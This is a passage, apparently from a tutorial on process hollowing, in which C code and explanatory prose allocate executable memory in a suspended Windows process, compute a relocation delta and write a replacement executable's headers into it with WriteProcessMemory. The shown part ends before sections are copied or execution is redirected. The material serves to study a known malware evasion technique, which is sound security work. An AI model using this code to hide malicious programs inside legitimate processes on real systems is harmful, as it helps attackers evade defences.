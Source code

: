 		printf("Allocating memory\r\n");
		 
		PVOID pRemoteImage = VirtualAllocEx
		(
			  pProcessInfo->hProcess,
			  pPEB->ImageBaseAddress,
			  pSourceHeaders->OptionalHeader.SizeOfImage,
			  MEM_COMMIT | MEM_RESERVE,
			  PAGE_EXECUTE_READWRITE
		);
		 
		if (!pRemoteImage)
		{
			  printf("VirtualAllocEx call failed\r\n");
			  return;
		}
 
## Copying The Source Image
Now that memory has been allocated for the new image it must be copied to the process memory.  For the hollowing to work, the image base stored within the optional header of the source image must be set to the destination image base address. However, before setting it the difference between the two base addresses must be calculated for use in rebasing. Once the optional header is fixed up, the image is copied to the process via WriteProcessMemory starting with its portable executable headers. Following that, the data of each section is copied. 

		DWORD dwDelta = (DWORD)pPEB->ImageBaseAddress -
			  pSourceHeaders->OptionalHeader.ImageBase;
		 
		printf
		(
			  "Source image base: 0x%p\r\n"
			  "Destination image base: 0x%p\r\n",
			  pSourceHeaders->OptionalHeader.ImageBase,
			  pPEB->ImageBaseAddress
		);
 
		printf("Relocation delta: 0x%p\r\n", dwDelta);
		 
		pSourceHeaders->OptionalHeader.ImageBase = (DWORD)pPEB->ImageBaseAddress;
		 
		printf("Writing headers\r\n");
		 
		if (!WriteProcessMemory
		(
			  pProcessInfo->hProcess,                        
			  pPEB->ImageBaseAddress,
			  pBuffer,
			  pSourceHeaders->OptionalHeader.SizeOfHeaders,
			  0
		))
		{
			  printf("Error writing process memory\r\n");
		 
			  return;
		}
		 